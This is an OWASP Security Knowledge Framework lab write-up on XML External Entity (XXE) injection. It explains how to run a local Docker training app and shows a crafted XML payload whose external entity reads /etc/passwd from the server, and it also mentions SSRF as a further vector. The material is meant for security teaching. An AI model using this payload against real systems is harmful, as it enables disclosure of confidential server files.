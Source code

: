 # KBID 6 - XXE

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:xxe
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:xxe
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-ip thanks to DefDev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

Processing of an Xml eXternal Entity containing tainted data may lead to the disclosure of confidential information and other system impacts. The XML 1.0 standard defines the structure of an XML document. The standard defines a concept called an entity, which is a storage unit of some type.There exists a specific type of entity, an external general parsed entity often shortened to an external entity, that can access local or remote content via a declared system identifier and the XML processor may disclose confidential information normally not accessible by the application. Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data.

![](.gitbook/assets/screen-shot-2019-03-04-at-22.00.31.png)

When we start the application we can see that the application uses the following XML tags and use those to display information on the website in a nice manner. First we load the normal file and submit this in the application.

![](.gitbook/assets/screen-shot-2019-03-04-at-22.00.42.png)

## Exploitation

In order to to exploit this vulnerability we need to craft a special XML header that will allow us for example read local files from the server.

```markup
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<items><item name="item1">a</item>
<item name="item2">&xxe;</item>
<item name="item3">c</item>
<item name="item4">d</item>
</items>
```

When we inject the above XML content we can see in the response of the application that we successfully have included the local file from the server.

![](.gitbook/assets/screen-shot-2019-03-04-at-22.01.13.png)

We now used the **file://** to read local files from the server but there are many other attack vectors you can do with this vulnerability, do some research and also try the other ones like the Server Side Request Forgery for example.

## Additional sources

{% embed url="https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing" %}



